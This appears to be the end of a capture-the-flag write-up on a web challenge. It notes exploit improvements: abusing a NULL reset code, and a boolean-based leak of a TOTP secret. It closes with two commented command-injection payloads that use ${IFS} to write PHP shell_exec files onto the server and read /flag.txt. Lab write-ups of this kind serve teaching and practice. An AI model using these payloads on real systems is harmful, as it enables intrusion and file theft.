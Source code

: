 Things I coulda improved on:
- Instead of getting a new code everytime I may have been able to apply an empty code at set_new_password.php after resetting once because it gets set to NULL in the code so I coulda done &reset_code=
^^ empty so it would be NULL.
- Instead of timebased I could've just seen if the password changed to the random value and if not then it would mean the TOTP_secret is not that character sequence (boolean based).


<img width="1121" alt="Screenshot 2024-11-24 at 2 33 43 AM" src="https://github.com/user-attachments/assets/1737af52-de68-48eb-91e9-8c0d1edcc6ba">


# this would NOT work:
# file:///ededed;echo${IFS}"<?php;shell_exec(\"echo$\".\"{IFS}'1'>>/var/www/html/lol.txt\");?>">/var/www/html/shell.php

# this would!
# file:///ededed;echo${IFS}"<?php\nshell_exec(\"cat$\".\"{IFS}/flag.txt>>/var/www/html/lol.txt\");?>">/var/www/cron.php
